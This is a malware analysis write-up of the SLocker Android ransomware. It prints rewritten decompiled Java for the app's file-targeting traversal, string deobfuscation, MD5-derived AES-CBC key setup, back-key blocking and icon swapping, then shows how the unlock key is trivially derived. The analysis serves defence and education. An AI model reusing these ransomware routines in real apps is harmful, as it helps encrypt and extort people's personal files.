### Diving into SLocker - Android malware analysis

### [~$ cd ..](../)

Ransomwares are really interesting malwares because of their very specific purpose. Indeed, a ransomware will not necessarily try to be stealth or persistent.
According to TrendMicro, _The SMSLocker family (detected as ANDROIDOS_SLOCKER or ANDROIDOS_SMSLOCKER) was the beginning of what we now consider Android ransomware_ (1). In this analysis, I'll present here the original sample captured by TrendMicro (2).

_NOTE: some snippets have been re-written because of "bad" decompilation process, and could contain some mistranslations_

## First steps

As usual, I started with the routine `onCreate` in the `MainActivity`. Before talking about cryptographic part, let's analyse what the malware does during the first execution.



The code is quite misleading, so here is a "cleaner" version (names haven't been changed, except for local variables):

> ```java
>protected void onCreate(Bundle paramBundle){
>	ADRTLogCatReader.onContext(this, "com.aide.ui");
>	getWindow().addFlags(8320);
>	this.mP = getApplicationContext().getPackageManager();
>	this.def = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.MainActivity");
>	this.mBazaar = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.QQ1279525738");
>	super.onCreate(paramBundle);
>	setContentView(R.layout.home);
>	instance = this;
>	getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new bah()).commit();
>	SharedPreferences prefs = getSharedPreferences("XH", 0);
>	if (!prefs.getString("bah", "").equals("")) {
>		this.xh = prefs.getString("bah", "");
>	}
>	else{
>		this.xh = ("" + ((int)(Math.random() * 1000000) + 10000000));
>		SharedPreferences.Editor localEditor = prefs.edit();
>		localEditor.putString("bah", this.xh);
>		localEditor.commit();
>	}
>	hz = sss.l( /* ... the long string ...*/ ) + this.xh;
>	m = "" + (Integer.parseInt(this.xh) + 520);
>	hzs = hz.length();
>	fi = new File(Environment.getExternalStorageDirectory() + "/");
>	if (prefs.getInt("cs", 0) >= 2){
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>	}
>	if (prefs.getInt("sss", 0) != 0) {
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>		setIconSc();
>	}
>	else{
>		new Thread(new Runnable(){
>			@Override
>			public void run(){
>				sss.deleteDir(MainActivity.fi.toString(), MainActivity.m, 1, MainActivity.this);
>			}
>		}).start();
>	}
>}
> ```

A first thing to notice is that the app checks if it's the first launch by comparing the value of `bah` (stored in `SharedPreferences`) against an empty string. If the entry
already exists, its value is stored in variable `xh` (used later for cryptographic purpose as we will see). Otherwise, a random value is generated and stored for the next time.

A second thing to notice is the comparison between `prefs.getInt("sss", 0)` and 0. By default, the value is 0, and then, a new `Thread` is started, calling a suspicious routine 
named `sss.deleteDir`. In fact, the entry `sss` just tested in set to 1 in this routine, which means that at the next time, the `if` block will normally be executed. If it's the case,
the routine `setIconSc` will change the app's icon an name:

> ```java
>private void disableComponent(ComponentName paramComponentName){
>	this.mP.setComponentEnabledSetting(paramComponentName, 2, 1);
>}
>
>private void enabledComponent(ComponentName paramComponentName){
>	this.mP.setComponentEnabledSetting(paramComponentName, 1, 1);
>}
>
>private void setIconSc(){
>	disableComponent(this.def);
>	enabledComponent(this.mBazaar);
>}
> ```

By using an alias, the app changes its appearance but is launched in the same way:



Finally, one can also notice that the malware tries to prevent the user to quit:



By returning `true`, the event is not sent to the next receiver. The code shown above could be written in this way:

> ```java
>public boolean onKeyDown(int keyCode, KeyEvent paramKeyEvent){
>	if (keyCode == KeyEvent.KEYCODE_BACK) {
>		String msg;
>		if (!((Fragment)getSupportFragmentManager().findFragmentById(2131099760) instanceof bah)) {
>			msg = "Please do not quit the software, or the file may never be recovered!";
>		}
>		else{
>			msg = /** some chinese characters **/;
>		}
>		Toast.makeText(this, msg, 1).show();
>	return true;
>}
> ```

Now, let's talk about cryptography.

## Files encryption

In the previous part, I didn't mention this line:

> ```java
>getSupportFragmentManager().beginTransaction().replace(2131099760, new bah()).commit();
> ```

This fragment displays the following progress bar:



and in background, the routine `sss.deleteDir` is executed and does its evil job (re-written):

> ```java
>public static void deleteDir(String path, String key, int action, Context context){
>	if (action != 0) {
>		new Timer().schedule(new TimerTask(){
>			public void run(){
>				SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>				editor.putInt("sss", 1);
>				editor.commit();
>				MainActivity.instance.finish();
>				Intent intent = sss.this.getPackageManager().getLaunchIntentForPackage(sss.this.getPackageName());
>				intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>				context.startActivity(intent);
>			}
>		}, 600000);
>	}
>	deleteDirWihtFile(new File(path), key, action, context);
>	bool = true;
>}
> ```

The parameter `action` is either 0 or 1 (decrypt/encrypt). As we can see, the `MainActivity` is closed and reopen, and then, the code of `onCreate` makes sense. The real bad job is actually done
in the routine `deleteDirWihtFile`, selecting recursively the files to encrypt. Since it's a big routine, here is the re-written code:  

> ```java
>public static void deleteDirWihtFile(File file, final String key, final int action, final Context context){
>	if ((file == null) || !file.exists() || !file.isDirectory())
>		return;
>	List<File> files = Arrays.asList(file.listFiles());
>	Collections.reverse(files);
>	File[] arrayOfFile = files.toArray(new File[files.size()]);
>	for (int i = 0;i < arrayOfFile.length;i++){
>		final File localFile = arrayOfFile[i];
>		String str = localFile.toString();
>		if (str.length() >= MainActivity.hzs)
>			str = (String)str.subSequence(str.length() - MainActivity.hzs, str.length());
>		if (action == 0) {
>			try {
>				if (localFile.isFile() && str.equals(MainActivity.hz) && !localFile.toString().contains("/.") && localFile.getName().contains(".")) {
>					executorService.execute(new Runnable() {
>						@Override public void run() {
>							if (localFile.getName().contains("!\uff01" + MainActivity.hz))
>								localFile.delete();
>							else
>								sss.jj(sss.this, key, action);
>							aa++;
>							if (lstFile.size() <= aa) {
>								aa = 0;
>								lstFile = new ArrayList<>();
>								SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>								editor.putInt("cjk", 1);
>								editor.commit();
>								MainActivity.instance.finish();
>								Intent intent = context.getPackageManager().getLaunchIntentForPackage(context.getPackageName());
>								intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>								context.startActivity(intent);
>							}
>						}
>					});
>				} else if (localFile.isDirectory() &&
>					!localFile.toString().contains("/.") &&
>					!localFile.toString().toLowerCase().contains("android") &&
>					!localFile.toString().toLowerCase().contains("com.") &&
>					!localFile.toString().toLowerCase().contains("miad") &&
>						(jd(localFile.toString()) < 3 ||
>						localFile.toString().toLowerCase().contains("baidunetdisk") ||
>						localFile.toString().toLowerCase().contains("download") ||
>						localFile.toString().toLowerCase().contains("dcim"))) {
>					deleteDirWihtFile(localFile, key, action, context);
>				}
>			} catch (Exception ignored) {}
>		}
>		else{
>			if (localFile.isFile() &&
>				!str.equals(MainActivity.hz) &&
>				!localFile.toString().contains("/.") &&
>				localFile.getName().contains(".") &&
>				localFile.length() > 0x2800 &&
>				localFile.length() <= 52428800 &&
>				zjs(localFile.getName() + MainActivity.hz) <= 251){  //zjs(s): return s.getBytes().length
>				
>				bb++;
>				executorService.execute(new Runnable(){
>					@Override public void run(){
>						sss.jj(sss.this, key, action);
>						hh++;
>						if (bb == hh && bool){
>							SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>							editor.putInt("sss", 1);
>							editor.commit();
>							MainActivity.instance.finish();
>							Intent intent = context.getPackageManager().getLaunchIntentForPackage(context.getPackageName());
>							intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>							context.startActivity(intent);
>						}
>					}
>				});
>			}
>			else if (localFile.isDirectory() && !localFile.toString().contains("/.") &&
>				!localFile.toString().toLowerCase().contains("android") &&
>				!localFile.toString().toLowerCase().contains("com.") &&
>				!localFile.toString().toLowerCase().contains("miad") &&
>					(jd(localFile.toString()) < 3 ||
>					localFile.toString().toLowerCase().contains("baidunetdisk") ||
>					localFile.toString().toLowerCase().contains("download") ||
>					localFile.toString().toLowerCase().contains("dcim"))){
>				deleteDirWihtFile(localFile, key, action, context);
>			}
>		}
>	}
>}
> ```

At the first time, the value of `action` is 1. We can see that the malware doesn't try to encrypt all files, for example:
* at least 0x2800 bytes
* at most 0x3200000 bytes
* containing a dot (i.e. with an extension)
* not the files with a specific suffix ( `MainActivity.hz`)
* not all directories: accept dcim, downloads, baidunetdisk, but reject system or third party's folders

If the object is a file, the routine `jj` is called with the `key` and the `action` taken as parameters (in order to encrypt or decrypt), and if it's a directory, 
the routine `deleteDirWihtFile` is recursively called.

### Encryption suffix

In the previous snippet, the variable `MainActivity.hz` was used. This string is built in `MainActivity.onCreate` thanks to the routine `sss.l`:



called with the parameter

>\u17d7\u1782\u17d1\u178f\u17d7\u1782\u17d1\u178e\u17d7\u1782\u17d1\u1795\u17d7\u1782\u17d1\u1790\u17d7\u1782\u179a\u17d7\u17d7\u1782\u179a\u17d5\u17d7\u1782\u179a\u17c8\u17d7\u1782\u179a\u17d1\u17d7\u1782\u179a\u17d6\u17d7\u1782\u179a\u17c8\u17d7\u1782\u179a\u17d4\u17d7\u1782\u179a\u17da\u17d7\u1782\u179a\u17cc\u17d7\u1782\u179a\u17da\u17d7\u1782\u17d1\u1785\u17d7\u1782\u17d1\u1785\u17d6\u17a8\u1782\u1796\u17d6\u17aa\u17ac\u17aa\u17d5\u17ba\u1796\u1797\u17e9\u17d6\u17b9\u1786\u17d7\u17d5\u17b9\u17a4\u178b\u17d5\u17b9\u17a4\u1799\u17d6\u17a8\u17a4\u17d1\u17d6\u17a8\u1786\u179b\u17d7\u1782\u179a\u1784\u17e9

The routine is as follows:



and could be written in this way:

> ```java
>public static String l(String paramString){
>	String encoded = Base64.getEncoder().encodeToString("\u4e09\u751f\u77f3\u7554 \u5f7c\u5cb8\u82b1\u5f00".getBytes()).replaceAll("\\D+", "");
>	Integer int1 = new Integer(new StringBuffer(encoded).reverse().toString());
>	char[] chars = paramString.toCharArray();
>	for(int i = 0; i < chars.length; i++){
>		chars[i] = (char)(chars[i] ^ int1.intValue());
>	}
>	String decoded = new StringBuffer(new String(Base64.getDecoder().decode(new String(chars).replace("\n", "")))).reverse().toString();
>	int1 = new Integer(encoded);
>	chars = decoded.toCharArray();
>	for(int i = 0; i < chars.length; i++){
>		chars[i] = (char)(chars[i] ^ int1.intValue());
>	}
>	return new String(chars);
>}
> ```

The returned string is a suffix appended on all encrypted files' name:



### Key generation

As we saw, the routine `jj` is called with the string `key` and the number `action`. Just as reminder, the string I called `key` is the randomly generated value in `MainActivity`.
Actually, this randomly generated value is equal to `MainActivity.xh` + 520, and is not exactly the key used to encrypt files:



This random string, representing an integer, is sent to the routine `getsss` (re-written):

> ```java
>public static final String getsss(String paramString) {
>	char[] arrayOfChar = new char[]{ 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102 };
>	try {
>		byte[] bytes = paramString.getBytes();
>		MessageDigest digest = MessageDigest.getInstance("MD5");
>		digest.update(bytes);
>		byte[] hash = digest.digest();
>		int k = hash.length;
>		char[] chars = new char[k * 2];
>		for (int i = 0, j = 0; i < k; i++) {
>			int m = hash[i];
>			int n = j + 1;
>			chars[j] = arrayOfChar[(m >>> 4) & 0xF];
>			chars[n] = arrayOfChar[m & 0xF];
>			j = (n + 1);
>		}
>		return new String(chars).toString().substring(8, 24);
>	} catch (Exception e) {
>		e.printStackTrace();
>	}
>	return null;
>}
> ```

This value is finally used in the routine `initAESCipher` in order to create the final key (re-written):

> ```java
>private static Cipher initAESCipher(String key, int mode) {
>	Cipher cipher = null;
>	try {
>		IvParameterSpec iv = new IvParameterSpec("QQqun 571012706 ".getBytes());
>		SecretKeySpec keySpec = new SecretKeySpec(key.getBytes(), "AES");
>		cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
>		cipher.init(mode, keySpec, iv);
>	} catch (InvalidKeyException | InvalidAlgorithmParameterException | NoSuchAlgorithmException | NoSuchPaddingException e) {
>		e.printStackTrace();
>	} 
>	return cipher;
>}
> ```

## After the encryption

Back to `MainActivity.onCreate`. The malware shows the delicacy to change the wallpaper by calling `sss.bz`:



In the routine `sss.deleteDir`, there was a `Timer` waiting for 10 minutes, and restarting the app. At this moment, the entry `sss` in `SharedPreferences` was set to 1,
and the app restarted. The new view displayed to the victim ( `qq1279525738` ) is then:



The button "Check Payment" displays three choices (QQ, Alipay, and WeChat), each one displaying a QR code:



but actually, the three QR codes pictures gave me the same md5 hash.

## Decryption

The decryption is done if the victime submits the right key and presses the button "Decrypt":



We can see that the malware only compares the submitted value and `MainActivity.m`, which is equal to the randomly generated value + 520, as we saw right at the beginning.
This random number is displayed in the `TextView`:



here 10360636. The computation is then trivial:



Reverse engineer this ransomware was quite easy, as well as files decryption. However, despite of this simpleness, it is still harmful because of its malicious capabilities.
Smartphones contain nowadays a lot of valuable data, and not everyone would be able to defeat the malware.


## Resources

* [Manifest](AndroidManifest.xml)
* [dec_sources.zip](dec_sources.zip)
* [smali files](smali.zip)

\[1\] Mobile Ransomware: Pocket-Sized Badness [https://blog.trendmicro.com/trendlabs-security-intelligence/mobile-ransomware-pocket-sized-badness/](https://blog.trendmicro.com/trendlabs-security-intelligence/mobile-ransomware-pocket-sized-badness/)

\[2\] SLocker Mobile Ransomware Starts Mimicking WannaCry [https://blog.trendmicro.com/trendlabs-security-intelligence/slocker-mobile-ransomware-starts-mimicking-wannacry/](https://blog.trendmicro.com/trendlabs-security-intelligence/slocker-mobile-ransomware-starts-mimicking-wannacry/)
